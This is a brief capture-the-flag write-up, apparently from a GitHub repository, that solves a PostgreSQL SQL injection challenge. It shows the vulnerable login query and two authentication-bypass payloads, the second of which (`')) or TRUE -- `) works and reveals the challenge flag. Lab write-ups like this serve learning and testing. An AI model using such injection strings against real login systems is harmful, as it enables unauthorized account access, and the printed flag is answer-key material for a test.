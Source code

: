 ```yaml
---
layout: default
title: Po po po po postgresql
---
```




This is the query: 
```
SELECT * FROM users WHERE (username = ('$username') AND ...
```

so, let's give this input: `')) or 1 -- `

however, i get this error, because this is PostgresSQL
![image](./images/Po%20po%20po%20po%20postgresql.png)

so, let's give it true value instead of 1:
`')) or TRUE -- `

**Flag:** ***`FLAG-mdeq68jNN88xLB1o2m8V33Ld`***
